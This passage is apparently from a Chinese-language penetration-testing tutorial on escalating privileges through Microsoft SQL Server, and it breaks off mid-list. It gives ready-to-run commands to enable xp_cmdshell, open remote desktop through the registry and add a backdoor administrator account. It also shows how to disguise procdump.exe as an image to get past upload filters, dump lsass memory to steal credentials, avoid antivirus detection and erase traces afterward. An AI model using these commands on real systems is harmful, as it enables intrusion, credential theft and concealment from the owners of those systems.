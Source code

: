 

## 0x09 Mssql数据库提权
#### 1. 前提条件

需要具备数据库管理员权限才可执行提权操作。

sqlmap判断数据库是否为管理员权限的方法：用`--is-dba`参数，输出结果为true即管理员权限。

#### 2. 提权步骤

- **安装xp_cmd_shell**
```mssql
exec sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE
```

最后清理痕迹时可以删除组件：

```mssql
exec sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 0;RECONFIGURE
```

- **开启3389**
```mssql
exec master.dbo.xp_regwrite'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','REG_DWORD',0;-- 
```

或者

```mssql
exec master..xp_cmdshell 'sc config termservice start=auto';
exec master..xp_cmdshell 'net start termservice';
exec master..xp_cmdshell 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x0 /f';        # 允许外部连接
```

最后清理痕迹时可以关闭3389：

```mssql
exec master.dbo.xp_regwrite'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','REG_DWORD',1;
```

- **新建管理员用户并连接**

```mssql
exec master..xp_cmdshell 'net user abc 123 /add';exec master..xp_cmdshell 'net localgroup administrators abc /add';
```

创建新用户abc并添加到管理员组，远程连接管理员用户即可。

- **破解账户Administrator的密码**

>  方案一：
>
> 首先通过网站上传procdump.exe，可能需要各种上传绕过，如procdump.jpg。如果上传的是procdump.jpg，则需要在Mssql里执行下面代码。
>
> ```mssql
> exec master..xp_cmdshell 'copy procdump.jpg c:\procdump.exe';
> ```
>
> 然后执行procdump.exe，有三种方法，但前两种不推荐，会被火绒拦截。
>
> > 第一种是直接执行procdump.exe程序
> >
> > ```mssql
> > exec master..xp_cmdshell 'c:\procdump.exe -accepteula -ma lsass.exe lsass.dmp';
> > ```